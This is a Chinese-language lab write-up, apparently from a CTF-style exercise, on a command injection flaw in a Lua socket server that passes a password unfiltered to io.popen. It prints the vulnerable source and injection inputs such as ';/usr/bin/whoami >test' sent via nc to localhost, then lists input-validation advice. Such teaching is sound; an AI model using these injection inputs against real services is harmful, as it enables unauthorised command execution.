 # <center>linux下漏洞分析入门/center>

## 实验概述

### 【目的】
安装lua和luasocket，运行level12.lua脚本，利用漏洞远程执行任意指令。
### 【环境】
Linux
### 【工具】
nc
### 【原理】
远程代码执行漏洞：远程命令执行漏洞，用户通过浏览器提交执行命令，由于服务器端没有针对执行函数做过滤，导致在没有指定绝对路径的情况下就执行命令，可能会允许攻击者通过改变 $PATH 或程序执行环境的其他方面来执行一个恶意构造的代码。
## 实验步骤

### 【步骤】
我们拿到的是一个lua脚本，首先需要在电脑上安装lua环境和所需要的luasocket模块。
安装lua：
```
sudo apt install lua5.1
```

安装luasocket：
```
sudo apt install luarocks
sudo luarocks install luasocket
```
现在就可以在终端上运行所给的lua脚本了
```
lua level19.lua
```
我们可以通过nc来访问：
```
$ nc 127.0.0.1 50001
Password: 

```
发现程序要求我们输入password。
切到lua脚本看源代码。
```
  1 local socket = require("socket")
  2 local server = assert(socket.bind("127.0.0.1", 50001))
  3 
  4 function hash(password)
  5   prog = io.popen("echo "..password.." | sha1sum", "r")
  6   data = prog:read("*all")
  7   prog:close()
  8 
  9   data = string.sub(data, 1, 40)
 10 
 11   return data
 12 end
 13 
 14 
 15 while 1 do
 16   local client = server:accept()
 17   client:send("Password: ")
 18   client:settimeout(60)
 19   local line, err = client:receive()
 20   if not err then
 21       print("trying " .. line) -- log from where ;\
 22       local h = hash(line)
 23 
 24       if h ~= "4754a4f4bd5787accd33de887b9250a0691dd198" then
 25           client:send("Better luck next time\n");
 26       else
 27           client:send("Congrats, your token is 413**CARRIER LOST**\n")
 28       end
 29 
 30   end
 31 
 32   client:close()
 33 end
~                                                                     
~                                   
```
可以看出，这里程序要求输入一个password，之后通过hash加密后与字符串`4754a4f4bd5787accd33de887b9250a0691dd198`进行对比，相等就认为输入了正确的密码。

需要注意的是，在函数hash()中，程序调用了popen()来得到加密后的字符串。
io.popen()##
原型：io.popen ([prog [, mode]])
解释：在额外的进程中启动程序prog，并返回用于prog的文件句柄。通俗的来说就是使用这个函数可以调用一个命令（程序），并且返回一个和这个程序相关的文件描述符，一般是这个被调用函数的输出结果，这个文件打开模式由参数mode确定，有取值"r"和"w"两种，分别表示以读、写方式打开，默认是以读的方式。

这里，程序用popen()调用了echo指令来吧password的值送入sha1sum处理并得到返回值。shell脚本的指令用`;`隔开，注意这里对于password没有任何过滤就送入了popen()，那么我们可以用`;`来隔断，从而运行任意指令。

```
$ nc 127.0.0.1 50001
Password: ;/usr/bin/whoami >test
Better luck next time
$ cat test
lometsj
$ nc 127.0.0.1 50001
Password: ;/bin/echo u got it > test
Better luck next time
$ cat test
u got it

```
### 【总结】

由于开发人员编写源码，没有针对代码中可执行的特殊函数入口做过滤，导致客户端可以提交恶意构造语句提交，并交由服务器端执行。命令注入攻击中WEB服务器没有过滤类似system(),eval()，exec()等函数是该漏洞攻击成功的最主要原因。

建议假定所有输入都是可疑的，尝试对所有输入提交可能执行命令的构造语句进行严格的检查或者控制外部输入，系统命令执行函数的参数不允许外部传递。
·不仅要验证数据的类型，还要验证其格式、长度、范围和内容。
·不要仅仅在客户端做数据的验证与过滤，关键的过滤步骤在服务端进行。
·对输出的数据也要检查，数据库里的值有可能会在一个大网站的多处都有输出，即使在输入做了编码等操作，在各处的输出点时也要进行安全检查。
·在发布应用程序之前测试所有已知的威胁。